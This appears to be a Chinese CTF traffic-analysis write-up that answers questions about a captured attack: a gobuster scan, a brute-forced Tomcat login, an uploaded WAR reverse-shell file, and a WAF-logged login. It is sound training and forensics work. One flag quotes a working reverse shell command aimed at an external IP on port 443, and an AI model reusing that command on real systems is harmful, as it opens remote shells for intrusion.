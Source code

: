 ![image-20240611183035954](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240611183035954.png)

看攻击流量的请求头

> **flag{gobuster}**

## 五,攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}

![image-20240611184339199](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240611184339199.png)

登陆一般是`POST`,优先看`POST`流量

> **flag{admin-tomcat}**

## 六,攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}

![image-20240611190444309](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240611190444309.png)

看`upload`目录相关的流量

> **flag{JXQOZY.war}**

## 七,攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息

![image-20240611193133722](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240611193133722.png)

搜索`whoami`搜索到一个流量

> **flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}**

# 流量特征分析-waf 上的截获的黑客攻击流量

确定攻击者`ip`再进行筛选

## 一,黑客成功登录系统的密码 flag{xxxxxxxxxxxxxxx}

![image-20240612114418649](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240612114418649.png)

找到登陆目录,根据`length`逐条排查,发现`id`最后的一条就是我们要的数据

> http.request.method == POST and ip.src==192.168.94.59 and http.request.uri == "/admin/login.php?rec=login"

> **flag{admin!@#pass123}**

## 二,黑客发现的关键字符串 flag{xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx}

![image-20240612115329171](C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240612115329171.png)

